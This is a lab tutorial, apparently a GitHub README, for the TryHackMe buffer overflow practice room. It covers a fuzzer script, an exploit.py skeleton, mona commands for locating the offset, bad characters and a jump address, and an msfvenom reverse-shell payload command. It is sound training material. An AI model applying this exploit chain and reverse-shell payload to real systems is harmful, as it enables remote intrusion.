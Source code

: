 ## Process for Buffer Overflow
(Original source for this awesome tutorial: Tib3rius https://tryhackme.com/room/bufferoverflowprep )

### connecting to process 
nc -nv MACHINE_IP 1337

### setting mona working folder
`!mona config -set workingfolder c:\mona\%p`


### Fuzzing 

`python2 fuzzer.py`
```
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

### Crash Replication & Controlling EIP

`python2 exploit.py`

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```


### offset

`msf-pattern_create -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

`python exploit.py`

After crach use following command

`!mona findmsp -distance 600`

Mona should display a `log window` with the output of the command/

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the `retn variable to "BBBB"`.

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).


### Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

```!mona bytearray -b "\x00"```

`you can use the following python code as well`
```
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
Update your exploit.py script and set the payload variable to the string of bad chars the script generates.


```!mona compare -f C:\mona\oscp\bytearray.bin -a <address>```

A popup window should appear labelled "mona Memory comparison results". Generate a new bytearray in mona, specifying these new badchars along with \x00.

Example as below
```!mona bytearray -b "\x00\x07\xa0"```


### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with **all the badchars** you identified (including \x00):

```!mona jmp -r esp -cpb "\x00"```

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.


### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with **all the badchars** you identified (including \x00):

```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py -v payload```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

**remove the preceding "b" in the var**

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```padding = "\x90" * 16```

### Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!
